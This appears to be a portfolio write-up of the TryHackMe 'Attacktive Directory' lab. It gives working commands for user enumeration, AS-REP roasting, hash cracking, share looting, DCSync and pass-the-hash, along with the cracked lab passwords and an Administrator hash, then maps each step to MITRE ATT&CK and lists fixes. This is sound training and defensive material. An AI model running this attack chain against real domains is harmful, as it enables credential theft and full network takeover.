







# Active Directory Lab Attac

This is my third cybersecurity project, where I went after a full Active Directory environment instead of a single host. The goal was simple: start with nothing (no creds, no access) and see how far I could get inside a Windows domain using only misconfigurations that show up constantly in real environments.

By the end I had Domain Administrator access and every password hash in the domain.

**Lab:** TryHackMe — "Attacktive Directory"
**Target domain:** spookysec.local
**Setup:** Kali Linux (VirtualBox), connected to the lab over OpenVPN instead of using the browser AttackBox, so I wasn't limited by session time

---

## About this project

Active Directory runs most corporate networks, and it's usually the main target in a real breach — once you're Domain Admin, you basically own the company's IT. This lab walks through a realistic attack chain against a DC (Domain Controller), using nothing but built-in AD weaknesses. No exploits, no malware, just abusing how Kerberos and SMB are designed to work.

## Tools used

Nmap, Kerbrute, Impacket (`GetNPUsers`, `secretsdump`), John the Ripper, smbclient, CrackMapExec

---

## Step 1 — Confirming the target

First thing was just checking what I was dealing with. Port 88 (Kerberos) being open is basically a dead giveaway that a machine is a domain controller.

```
nmap -p 88 10.48.191.70

PORT   STATE SERVICE
88/tcp open  kerberos-sec
```



## Step 2 — Finding real usernames

Before trying to break into any account, I needed to know which accounts actually exist. Kerberos has a quirk where the server responds differently depending on whether a username is real — even without a password. Kerbrute abuses exactly that.

```
kerbrute userenum -d spookysec.local --dc 10.48.191.70 userlist.txt
```

Got 8 valid accounts back: `james`, `svc-admin`, `robin`, `darkstar`, `administrator`, `backup`, `paradox`, `ori`



`svc-admin` immediately stood out — service accounts are the classic target for the next step.

## Step 3 — AS-REP Roasting

Normally Kerberos won't hand out anything until you prove you know the password. But some accounts have that check turned off by mistake — usually old service accounts nobody's touched in years. When that happens, the server will freely give you an encrypted ticket, and that ticket is locked using a scrambled version of the real password.

```
impacket-GetNPUsers spookysec.local/ -usersfile valid_users.txt -no-pass -dc-ip 10.48.191.70
```

Sure enough — `svc-admin` had this disabled. Everyone else required proper pre-auth.



## Step 4 — Cracking the hash

Took the hash offline and ran it against rockyou.txt with John the Ripper.

```
john --wordlist=/usr/share/wordlists/rockyou.txt svc-admin.hash
```

Cracked in about 11 seconds:

```
svc-admin : management2005
```



That's my first real foothold — an actual working login for the domain.

## Step 5 — Looking around with those creds

With `svc-admin`'s credentials, I checked what file shares were visible over SMB.

```
crackmapexec smb 10.48.191.70 -u svc-admin -p management2005 --shares
```

Found a non-default share called `backup` with read access. Connected to it and there was one file sitting there: `backup_credentials.txt`. Inside was a base64 string.

```
smbclient //10.48.191.70/backup -U svc-admin
cat backup_credentials.txt
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

Decoded to a second valid account:

```
backup@spookysec.local:backup2517860
```



This is a really common mistake — someone leaves a plaintext credential file sitting on a share "just for backups" and forgets it's readable by way more people than intended.

## Step 6 — The big one: DCSync

This is where it went from "I have another account" to "I own the domain." I checked whether the `backup` account had replication rights — the kind normally reserved for domain controllers themselves. If it does, you can trick the DC into handing over every password hash in the domain by pretending to be another DC asking to sync.

```
impacket-secretsdump spookysec.local/backup:backup2517860@10.48.191.70
```

It worked. Got every single account's hash, including Administrator:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
```



## Step 7 — Proving it

Didn't even need to crack the Administrator hash — NTLM hashes can be used directly to log in without ever knowing the plaintext password (Pass-the-Hash).

```
crackmapexec smb 10.48.191.70 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
```

```
spookysec.local\administrator:0e0363213e37b94221497260b0bcb4fc (Pwn3d!)
```



Full domain compromise, confirmed.

---

## The full chain, start to finish

1. Confirmed the target was a DC (Nmap)
2. Found real usernames with no credentials at all (Kerbrute)
3. Found one account with Kerberos pre-auth disabled (AS-REP Roasting)
4. Cracked its password offline (John the Ripper)
5. Used it to browse shares and found a second, leaked credential
6. Used that account's replication rights to dump every password hash in the domain (DCSync)
7. Logged in as Administrator using the stolen hash directly (Pass-the-Hash)

Whole thing took under two hours, and every step fed directly into the next one.

## MITRE ATT&CK Mapping

Every step of this attack chain mapped to its official MITRE ATT&CK technique, for anyone reviewing this from a detection/threat-informed defense perspective.

| Attack Step | MITRE ATT&CK Technique | ID | Tactic |
|---|---|---|---|
| Kerbrute username enumeration | Account Discovery: Domain Account | [T1087.002](https://attack.mitre.org/techniques/T1087/002/) | Discovery |
| AS-REP Roasting | Steal or Forge Kerberos Tickets: AS-REP Roasting | [T1558.004](https://attack.mitre.org/techniques/T1558/004/) | Credential Access |
| Offline hash cracking (John the Ripper) | Brute Force: Password Cracking | [T1110.002](https://attack.mitre.org/techniques/T1110/002/) | Credential Access |
| SMB share enumeration (CrackMapExec) | Network Share Discovery | [T1135](https://attack.mitre.org/techniques/T1135/) | Discovery |
| Credentials found in a file on a share | Unsecured Credentials: Credentials In Files | [T1552.001](https://attack.mitre.org/techniques/T1552/001/) | Credential Access |
| DCSync attack (Impacket secretsdump) | OS Credential Dumping: DCSync | [T1003.006](https://attack.mitre.org/techniques/T1003/006/) | Credential Access |
| Pass-the-Hash login as Administrator | Use Alternate Authentication Material: Pass the Hash | [T1550.002](https://attack.mitre.org/techniques/T1550/002/) | Defense Evasion, Lateral Movement |

Mapping the full chain this way makes it possible to trace each step back to a defender-recognized technique — useful for anyone building detections against this exact attack path.

## Why this matters

None of this required a zero-day or anything clever — just everyday AD misconfigurations stacked on top of each other:

- A service account with Kerberos pre-auth switched off
- A weak, guessable password
- Credentials sitting in a plaintext file on a network share
- An account with way more replication rights than it needed
- NTLM still being accepted

This is pretty much how real domain compromises happen. Attackers don't usually need a fancy exploit — misconfigurations like these hand them everything.

## Fixes for a real environment

- Enable Kerberos pre-authentication everywhere, and actually audit for accounts where it's off
- Enforce real password policies for service accounts — these are the ones that get set up once and forgotten
- Stop storing credentials in plaintext on shares — use a proper secrets manager instead
- Restrict DCSync/replication rights to domain controllers and real domain admins only
- Disable NTLM where possible, and log/alert on it where you can't
- Monitor for DCSync-style requests coming from anything that isn't an actual DC — Defender for Identity or similar tools catch this well

---

*Done in a lab environment (TryHackMe "Attacktive Directory") for learning and portfolio purposes.*
